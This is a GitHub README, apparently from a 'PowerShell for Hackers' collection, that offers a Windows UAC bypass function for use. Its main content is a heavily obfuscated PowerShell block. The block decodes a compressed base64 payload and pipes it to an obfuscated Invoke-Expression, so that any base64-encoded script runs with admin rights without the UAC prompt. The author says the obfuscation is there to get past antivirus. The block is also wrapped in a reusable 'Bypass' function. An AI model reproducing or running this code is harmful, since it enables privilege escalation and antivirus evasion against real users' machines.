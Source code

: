 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# UAC Bypass

## Description

This is a bonus function I am including with this repository. It will allow you to run any base64 encoded script from a standard Powershell console regardless
if Admin Privledges are required. It will open an Admin prompt and execute your code bypassing the UAC. In order to get this past the Anti Virus I have to heavily 
obfuscate it. So with that being said you really should not run code if you do not know what it does so user discretion is advised. 

## The Function

### [UAC-Bypass] 

This function has 2 parts. 

You have the ```$code``` variable you can store any base64 encoded script into. 

You can use my [Text to Base64](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/B64.md) function to encode your own scripts.

```
$code = "TgBlAHcALQBJAHQAZQBtACAAQwA6AFwASQB0AC0AVwBvAHIAawBlAGQALgB0AHgAdAA="
```
Next you have a highly obfuscated block of code that will run any Base64 encoded script stored in the ```$code``` variable with Admin rights. 

Using the code above as an example running both of these in a standard non Admin Powershell console will create a file called ```It-Worked.txt``` 

in your C: directory just to show you it works.

```
(New-OBJEct SYsTEm.IO.StReamREADer( (New-OBJEct  iO.COmpREssioN.dEflAtEstrEam([SYStEm.Io.mEMoRYStREAm] [CoNVERT]::fROmBAse64STrING( 'hY6xCsIwFEV/5RG6ph0ci1MHBZEOQacsobmtQtKEvEj9fJuC4FT3e849VX89HUUMCxI/4FyNN0hiHqgaggWJNmEiYy2J86W7aRXGvJgE3TnDDNZ18JNWBdV9xKyH4L2ZraDGUrXKqRn/KTxLRs7PeWLdvdIdaaNFUYvCj8GuBxGp1LUqm5SlckAkyXTY9BYOGbuR4puyv/2t2ZAP'),[sySteM.iO.COmPREsSion.COMprEssIONmODe]::decOMpreSS ) ) , [tExt.eNcODINg]::ascIi)).rEAdToEND( )|& ( $SHELLId[1]+$ShELLid[13]+'X')
```

I have turned this bypass into a function as well. 

Using the following syntax you can run any Base64 encoded script as an Admin:

```
Bypass TgBlAHcALQBJAHQAZQBtACAAQwA6AFwASQB0AC0AVwBvAHIAawBlAGQALgB0AHgAdAA=
```

```
function Bypass {
[CmdletBinding()]
param (
[Parameter (Position=0, Mandatory = $True)]
[string]$code )

(New-OBJEct SYsTEm.IO.StReamREADer( (New-OBJEct  iO.COmpREssioN.dEflAtEstrEam([SYStEm.Io.mEMoRYStREAm] [CoNVERT]::fROmBAse64STrING( 'hY6xCsIwFEV/5RG6ph0ci1MHBZEOQacsobmtQtKEvEj9fJuC4FT3e849VX89HUUMCxI/4FyNN0hiHqgaggWJNmEiYy2J86W7aRXGvJgE3TnDDNZ18JNWBdV9xKyH4L2ZraDGUrXKqRn/KTxLRs7PeWLdvdIdaaNFUYvCj8GuBxGp1LUqm5SlckAkyXTY9BYOGbuR4puyv/2t2ZAP'),[sySteM.iO.COmPREsSion.COMprEssIONmODe]::decOMpreSS ) ) , [tExt.eNcODINg]::ascIi)).rEAdToEND( )|& ( $SHELLId[1]+$ShELLid[13]+'X')
}
``` 


<p align="right">(<a href="#top">back to top</a>)</p>


<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>

<p align="center">
        <img src="https://raw.githubusercontent.com/bornmay/bornmay/Update/svg/Bottom.svg" alt="Github Stats" />
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
